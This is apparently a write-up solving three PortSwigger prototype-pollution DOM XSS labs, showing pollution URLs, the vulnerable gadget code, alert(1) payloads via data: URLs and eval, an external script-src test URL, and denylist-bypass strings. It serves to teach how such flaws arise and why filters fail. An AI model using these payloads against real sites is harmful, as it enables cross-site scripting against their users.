



#   Prototype Pollution in Practice: Solving DOM XSS Labs Methodically



Let's take what we learned in [*Prototype Pollution*](https://github.com/Marduk-I-Am/web-security-notes/blob/main/xss/prototype-pollution.md) and [*Gadget Hunting in Practice*](https://github.com/Marduk-I-Am/web-security-notes/blob/main/xss/gadget-hunting.md) and apply it to three of [Portswigger's](https://portswigger.net/web-security/all-labs#prototype-pollution) prototype pollution labs.

These three labs are a good starting point. The first lab is a pure example of the methodology from the previous two articles: find the vector, confirm pollution, find the gadget, and reach the sink. No additional concepts are involved. The later labs introduce common mistakes developers make when attempting to defend against prototype pollution.

##  Lab 1: [DOM XSS via client-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution)

This first lab is a straightforward example of the full prototype pollution exploitation chain:

1. Find the pollution vector
2. Confirm inheritance
3. Identify the gadget
4. Trace it to an executable sink
5. Achieve execution

The application attempts to prevent prototype pollution, but the protections are incomplete and can be bypassed. Our goal is to pollute a property on `Object.prototype` that eventually reaches a DOM XSS sink and triggers `alert()`.

### Step 1: Find a prototype pollution source

Our first goal is to determine whether user-controlled input can pollute a prototype inherited by application objects.

To test this, append the following payload to the URL:

```text
https://YOUR-SESSION-ID.web-security-academy.net/?__proto__[canary]=infected
```

This attempts to write the property `canary` onto `Object.prototype`.

The page appears visually unchanged, but prototype pollution rarely produces immediate visible effects on its own. We still need to confirm whether inheritance actually occurred.

### Step 2: Confirm pollution

Open the browser DevTools and switch to the Console tab. Evaluate:
```javascript
({}).canary
```

If the expression returns `undefined`, the pollution failed.

In this case, it returns `infected`, which confirms that new plain objects are inheriting the polluted property from `Object.prototype`.

That's a good sign, but at this point we have only proven pollution. We still have not proven:

- that application code reads the polluted property
- that the value reaches a sink
- or that execution is possible

Now we begin gadget hunting.

### Step 3: Find the gadget

Let's try finding a suitable gadget. Head over to the Sources/Debugger tabs in DevTools and inspect the available JavaScript files for potential DOM XSS sinks.

In a file called `searchLogger.js` we find:
```javascript
if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
}
```

This is a strong gadget candidate.

The application reads the property `config.transport_url` and uses it to control the `src` attribute of a dynamically created `<script>` element.

More importantly, the code does not verify that `transport_url` is an own property of `config`. If `config` is a plain object, JavaScript will also resolve inherited properties from the prototype chain.

That means polluting:
```javascript
Object.prototype.transport_url
```

may allow us to control:
```javascript
script.src
```

which is a powerful DOM XSS sink because it causes the browser to load and execute attacker-controlled JavaScript.

### Step 4: Reach the sink

The cleanest way to demonstrate sink reachability is not with `alert(1)` immediately, but with a non-executing proof-of-control payload such as:
```text
/?__proto__[transport_url]=https://M4rduk.com/test.js
```

Open the Network tab in DevTools and refresh the page. The browser will attempt to request this imaginary JavaScript file, and the failed request can be observed in real time.



That proves:
-   polluted property resolution
-   gadget execution
-   control over the `<script>` sink

without immediately jumping to XSS execution.

### Step 5: Build the final payload

Now that we have confirmed control over the `<script>` sink, we can replace the test URL with a payload that executes JavaScript directly:
```text
/?__proto__[transport_url]=data:,alert(1);
```

The `data:` scheme allows content to be embedded directly inside the URL itself rather than loaded from an external file. The comma separates the metadata portion of the URL from the actual embedded content:

In this case:
```javascript
data:,alert(1);
```

is treated as the contents of a JavaScript resource. When the application assigns the polluted value to `script.src` the browser loads and executes the payload, triggering `alert(1)` and solving the lab.

##  Lab 2: [DOM XSS via an alternative prototype pollution vector](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector)

The previous lab used the classic `/?__proto__[property]=value` pollution pattern. This lab demonstrates an important lesson: filtering `__proto__` alone is not enough.

### Step 1: Find a prototype pollution source

Attempting this lab like the previous one, using `/?__proto__[canary]=infected`, results in `({}).canary` returning `undefined`.

However, switching to dot notation succeeds:
```text
/?__proto__.canary=infected
```

### Step 2: Confirm pollution

Now evaluating:
```javascript
({}).canary
```

will return `infected`. The application attempted to block one prototype pollution syntax, but failed to account for alternative property access patterns.

### Step 3: Find the gadget

Searching the loaded JavaScript files reveals the following sink inside `searchLoggerAlternative.js`:
```javascript
manager.sequence = a + 1;

eval(
  'if(manager && manager.sequence){ manager.macro(' + manager.sequence + ') }'
);
if (manager.params && manager.params.search) {
  await logQuery('/logger', manager.params);
}
```

The property `manager.sequence` is particularly interesting because it is passed directly into an `eval()` call and is not defined by default.

That makes it a strong gadget candidate. If we can pollute `sequence`, we may be able to influence the JavaScript evaluated by the application.

### Step 4: Reach the sink

Before attempting execution, let's first confirm that our polluted property actually reaches the sink.

Use the following payload:
```text
/?__proto__.sequence=TEST
```

Set a breakpoint on the eval() call in searchLoggerAlternative.js and refresh the page.



Inspecting the variables at the breakpoint shows that our polluted value (`TEST`) has successfully flowed into application code. We can also see that the application appends an additional `1` character when assigning `manager.sequence`, resulting in the value `TEST1`.

This confirms:
- polluted property resolution
- gadget execution
- control over data reaching the `eval()` sink

However, it also reveals that the application modifies our input before execution.

### Step 5: Build the final payload

Now that we understand how the application processes our input, we can see why a simple payload such as: `/?__proto__.sequence=alert(1)` fails. The application appends an additional 1, resulting in `alert(1)1` which is invalid JavaScript syntax.

By appending a trailing minus sign:
```text
/?__proto__.sequence=alert(1)-
```

the application produces `alert(1)-1`. This is now a valid JavaScript expression. **The subtraction itself is irrelevant**. It simply allows the parser to accept the modified payload, resulting in successful execution of `alert(1)`.

This lab reinforces two important points. First, blocking a single prototype pollution syntax is rarely sufficient because alternative property access patterns may still exist. Second, reaching a sink does not automatically guarantee execution. Understanding how the application transforms your input is often the difference between a failed payload and a working exploit.

The final lab focuses on another common defensive mistake: sanitization that appears secure but can still be bypassed.

##  Lab 3: [Client-side prototype pollution via flawed sanitization](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization)

By this point we have already worked through the full prototype pollution workflow twice. Rather than repeating those same steps again, the interesting part of this lab is understanding why the sanitization fails.

The previous lab showed that blocking a single pollution vector is ineffective. This lab demonstrates a broader lesson: sanitization logic is only as strong as its implementation.

At first glance, all of the obvious prototype pollution vectors appear blocked:
```text
/?__proto__[foo]=bar
/?__proto__.foo=bar
/?constructor.prototype.foo=bar
```

However, inspecting the JavaScript reveals that the application is not truly blocking these properties. Instead, it attempts to remove specific substrings before processing user input.

You can see the culprit here in the `searchLoggerFiltered.js` file:
```javascript
function sanitizeKey(key) {
  let badProperties = [
    'constructor',
    '__proto__',
    'prototype'
  ];
  for (let badProperty of badProperties) {
    key = key.replaceAll(badProperty, '');
  }
  return key;
}
```

This is a classic denylist failure.

Rather than rejecting dangerous keys, the application removes matching substrings. By embedding blocked terms inside larger strings, the filtering process reconstructs the dangerous property names after sanitization.
```text
blocked:  constructor
bypass:   constconstructorructor

blocked:  __proto__
bypass:   __pro__proto__to__

same idea in XSS filter evasion
blocked:  <script>
bypass:   <scr<script>ipt>
```

When the filter removes the embedded blocked term, the remaining characters reconstruct the original dangerous property name.

Once the sanitization bypass is understood, the remainder of the exploit is identical to the first lab, [DOM XSS via client-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution).

We can pollute `transport_url`, reach the same `<script>` gadget, and execute JavaScript via a `data:` URL:
```text
/?constconstructorructor[protoprototypetype][transport_url]=data:,alert(1);
```

Several bypass variations work. For example: `/?__pro__proto__to__[transport_url]=data:,alert(1);`. Both payloads ultimately reconstruct blocked property names during sanitization, allowing prototype pollution to occur despite the filter.

##  Lessons Learned

Although these labs use different vectors, gadgets, and bypasses, the underlying methodology never changes.

Prototype pollution is a chain of smaller problems:

- Can a prototype be polluted?
- Does application code read the polluted property?
- Does that property reach a meaningful sink?
- Can the value survive any transformations along the way?

In the first lab, we identified a pollution source, confirmed inheritance, located a gadget, and traced it to an executable sink.

In the second lab, we learned that reaching a sink is not the same as achieving execution. Understanding how the application transforms data is often just as important as finding the sink itself.

In the third lab, we saw that defensive code can fail in unexpected ways. Simply removing dangerous strings is not validation, and seemingly secure filters can often be bypassed through alternative representations.

Answer those questions one at a time and the debugging process becomes manageable. Instead of blindly firing payloads and hoping for an alert box, prove each link in the chain individually. Once you can demonstrate pollution, gadget execution, sink reachability, and payload survivability, exploitation stops being guesswork and becomes a process.

---

*Marduk-I-Am*  
Web Security Notes  

GitHub: https://github.com/Marduk-I-Am